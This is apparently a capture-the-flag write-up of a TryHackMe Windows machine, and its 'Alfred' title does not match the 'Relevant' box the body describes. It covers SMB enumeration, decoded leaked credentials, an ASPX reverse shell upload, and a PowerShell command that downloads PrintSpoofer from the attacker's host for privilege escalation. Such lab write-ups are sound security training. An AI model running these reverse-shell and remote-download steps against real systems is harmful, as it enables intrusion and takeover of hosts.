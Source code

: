 ```yaml
---
layout: single
title: Alfred - TryHackMe (OSCP STYLE)
excerpt: "You have been assigned to a client that wants a penetration test conducted on an e
nvironment due to be released to production in seven days.

With this introduction, TryHackMe proposes us the following challenge, basically they ask us to perform a black box pentest simulating that we are going to test the security of an application that will go into production in 7 days"
date: 2023-05-14
classes: wide
header:
  teaser: /assets/images/relevant/portada.png
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - SMB Enumeration
  - SeImpersonatePrivilege
  - Cracking
---
```


## Enumeration

As I usually do in all my write-ups, the first thing we are going to do is check if we have connectivity with the machine

```
┌──(kali㉿kali)-[~]
└─$ ping -c4 10.10.81.172      
PING 10.10.81.172 (10.10.81.172) 56(84) bytes of data.
64 bytes from 10.10.81.172: icmp_seq=1 ttl=127 time=43.2 ms
64 bytes from 10.10.81.172: icmp_seq=2 ttl=127 time=43.8 ms
64 bytes from 10.10.81.172: icmp_seq=3 ttl=127 time=44.0 ms
64 bytes from 10.10.81.172: icmp_seq=4 ttl=127 time=44.7 ms

--- 10.10.81.172 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 43.235/43.930/44.716/0.530 ms
```

The ttl is 127 so we can supose that we are facing a windows machine

I run my usual scan, which reports 8 open ports

```
sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.81.172 -oG allPorts
```

![1]

Among those ports, some stand out more than others, the first one that caught my attention is port 80, indicating that a web service is running, and ports 139 and 445 related to the SMB protocol, maybe we can enumerate some interesting resources.

To get a bit more context, I run an nmap scan to determine the versions of those services running

```
┌──(kali㉿kali)-[~/Documents/THM/Relevant/nmap]
└─$ nmap -sVC -p80,139,445,3389 10.10.81.172

```

![2]

We navigate to the web page where we don't find much information, it's the default page of the Windows IIS.

We tried to fuzz it to find any hidden directories, but we didn't find nothing

If we enumerate the resources in the SMB, we can see that there is more to explore

```
┌──(kali㉿kali)-[~/Documents/THM/Relevant/nmap]
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.81.172 
```

![3]


Despite the supposed difficulty of the machine, it occurred to me to launch the nmap scan that checks if the victim is vulnerable to EternalBlue.

```
┌──(kali㉿kali)-[~/Documents/THM/Relevant/exploits]
└─$ nmap -sC -p445 --open --max-hostgroup 3 --script smb-vuln-ms17-010.nse 10.10.81.172

```

![4]

After trying for hours, I realized that it was impossible to enter through this method, so I decided to list the SMB content again and realized that the `nt4wrksv` folder was accessible

I connected to the shared resource without a password using the -N option and listed it. I discovered that the file passwords.txt existed

![5]

![6]

We can use a simple decoder, since the passwords are in base64. I have used CyberChef and found the following:

```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```

Now we have two potential users with their respective passwords.

## Initial Access

If we remember from the beginning of the write-up, we tried to find some directory to connect to, but the wfuzz tool did not return anything. I also tried through port 80 and the accessible SMB directory but didn't find anything.

As I was running out of options, I went back to review all the open ports on the machine.

Besides the typical ports, we have to remember that we have ports 3389, 49663, 49667, and 49669.

After trying them one by one, I found a way to proceed through port 49663.

![7]
It seems that we have access to the content of the shared resource from here. The first question that comes to my mind is: can we upload files and view them from this path?

We will temporarily exit the SMB console where we will create a file named "test.txt", then log back into the resource and verify if we have access to the file.

![8]

![9]
We can upload files that can be executed in the browser, what I'm thinking is to upload a reverse shell in aspx format that gives us access to the system

From our local machine
```
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
```

We should modify the LHOS and LPORT parameters 


![10]

Now, we just need to set up a listener on our machine and navigate to the shell, thus obtaining the reverse shell on our computer.

![11]

## Privilege escalation


Here is where I found out that this machine was my downfall. As always, the first thing I enumerated were the permissions of my user, where I saw that the SetImpersonatePrivilege was enabled. After trying several times to use JuicyPotato as we have done on other machines, I realized that the machine always threw an error.

I found my salvation in the printspoofer tool which is compatible with the Windows Server 2016 version that the machine is running.

I downloaded the .exe binary from here

[GitHub](https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe)

I uploaded it to the machine

```
powershell -command "iex(New-Object Net.WebClient).downloadFile('http://10.14.49.189:8080/PrintSpoofer.exe', 'c:\Users\Public\PrintSpoofer.exe')"
```

And finally get my Administrator shell

![12]

However, thinking that JuicyPotato didn't work for me because of the Windows version reminded me of the first vulnerability I had been trying (eternalblue), could it be that I was experiencing the same problem?

  
The nmap script seemed to indicate that the system was vulnerable, in other writes ups I found that we can exploit eternalblue o this machine with eternalromance exploit, anyway we did by this method that is manually too.


[1]:/assets/images/relevant/1.png
[2]:/assets/images/relevant/2.png
[3]:/assets/images/relevant/3.png
[4]:/assets/images/relevant/4.png
[5]:/assets/images/relevant/5.png
[6]:/assets/images/relevant/6.png
[7]:/assets/images/relevant/7.png
[8]:/assets/images/relevant/8.png
[9]:/assets/images/relevant/9.png
[10]:/assets/images/relevant/10.png
[11]:/assets/images/relevant/11.png
[12]:/assets/images/relevant/12.png

